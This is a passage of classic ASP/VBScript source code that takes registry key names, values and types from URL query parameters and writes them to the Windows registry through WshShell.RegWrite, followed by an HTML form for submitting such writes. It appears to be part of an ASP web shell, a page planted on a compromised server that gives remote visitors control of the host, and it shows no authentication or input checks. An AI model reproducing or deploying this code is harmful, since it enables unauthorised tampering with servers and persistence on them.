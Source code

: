                             teste = WshShell.RegWrite (Trim(Request.QueryString("key")), Trim(Request.QueryString("value")), "REG_EXPAND_SZ")
                        Case "5"
                            teste = WshShell.RegWrite (Trim(Request.QueryString("key")), Trim(Request.QueryString("value")), "REG_MULTI_SZ")
                    End Select
                    Response.Write "&lt;center&gt;&lt;br&gt;&lt;font face=""arial"" size=""2""&gt;Registry &lt;b&gt;"
                    Response.Write Trim(Request.QueryString("key")) & "&lt;/b&gt; Changed.&lt;/center&gt;"
                    Response.Write "&lt;br&gt;&lt;br&gt;&lt;font face=""arial"" size=""1""&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg""&gt;Main Menu&lt;/a&gt;&lt;br&gt;"
                Else
                    Response.Write "&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""2""&gt;ROOT KEY NAME&lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""2""&gt;ABREVIA??O&lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;HKEY_CURRENT_USER &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; HKCU &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;HKEY_LOCAL_MACHINE &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; HKLM &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;HKEY_CLASSES_ROOT &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; HKCR &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;HKEY_USERS &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; HKEY_USERS &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;HKEY_CURRENT_CONFIG &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; HKEY_CURRENT_CONFIG &lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;"
                    Response.Write "&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""2""&gt;Type &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""2""&gt; Description &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""2""&gt; Figure &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;REG_SZ &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; String &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; String &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;REG_DWORD &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; Number &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; DWORD &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;REG_BINARY &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; Binary &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; VBArray DWORD &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;REG_EXPAND_SZ &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; String Expand (ex. ""%windir%\\calc.exe"") &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; String &lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;REG_MULTI_SZ &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; Array Of Strings &lt;/td&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt; VBArray Of Strings &lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;"
                    Response.Write "&lt;br&gt;&lt;br&gt;&lt;FORM action=""" & Request.ServerVariables("URL") & """ method=""GET""&gt;"
                    Response.Write "&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;KEY: &lt;/td&gt;&lt;td&gt;&lt;input type=""text"" name=""key""&gt; &lt;font face=""arial"" size=""1""&gt;&lt;br&gt;( ex.: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ProductId )&lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;VALUE:&lt;/td&gt;&lt;td&gt;&lt;input type=""text"" name=""value""&gt;&lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""1""&gt;TYPE:&lt;/td&gt;&lt;td&gt;&lt;SELECT NAME=""type""&gt;"
                    Response.Write "&lt;OPTION VALUE=""1""&gt;REG_SZ &lt;/option&gt;"
                    Response.Write "&lt;OPTION VALUE=""2""&gt;REG_DWORD &lt;/option&gt;"
                    Response.Write "&lt;OPTION VALUE=""3""&gt;REG_BINARY &lt;/option&gt;"
                    Response.Write "&lt;OPTION VALUE=""4""&gt;REG_EXPAND_SZ &lt;/option&gt;"
                    Response.Write "&lt;OPTION VALUE=""5""&gt;REG_MULTI_SZ &lt;/option&gt;&lt;/select&gt;&lt;br&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""regaction"" value=""w""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""action"" value=""reg""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""process"" value=""yes""&gt;&lt;/td&gt;&lt;/tr&gt;"
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type=""submit"" value=""OK""&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;"
                    Response.Write "&lt;br&gt;&lt;br&gt;&lt;font face=""arial"" size=""1""&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg""&gt;Main Menu&lt;/a&gt;&lt;br&gt;"
                End If